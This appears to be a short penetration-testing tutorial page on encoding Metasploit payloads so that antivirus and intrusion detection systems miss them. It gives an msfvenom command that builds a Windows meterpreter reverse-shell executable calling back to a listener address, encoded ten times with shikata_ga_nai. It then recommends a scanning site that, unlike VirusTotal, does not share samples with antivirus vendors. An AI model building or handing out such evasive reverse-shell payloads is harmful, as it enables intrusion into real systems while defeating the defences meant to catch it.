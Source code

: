 - Generating payloads is just the first step; nowadays security products, such as Intrusion Detection Systems (IDSs), antivirus and anti-malware software, can easily pick up the shellcode generated by MSFvenom. To help us evade security, we can use encoders to encode our shellcode.

## Place where all encoders reside
```python
┌──(root㉿kali)-[/home/hyok]
└─# ls /usr/share/metasploit-framework/modules/encoders      
cmd  generic  mipsbe  mipsle  php  ppc  ruby  sparc  x64  x86
```

#### Listing all the encoders using metasploit
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q
[*] Starting persistent handler(s)...
msf6 > show encoders
```

## Encoding a payload
```python
msf6 > msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.9 -f exe -e x86/shikata_ga_nai -i 10 -o encoded.exe
```
- To encode one of our previous payloads, we simple add the `-e` option, followed by the encoder we want to use.
- We can use the `-i` option, followed by the number of times to encode the payload.

#### Verifying that your payload is detected by anvirus software or not, let's use virustotal:
Note - virustotal send the scan results of new payloads to the respected companies of antivirus software so that they can update their software. So, we can't use it instead we are going to use **[https://antiscan.me/](https://antiscan.me/)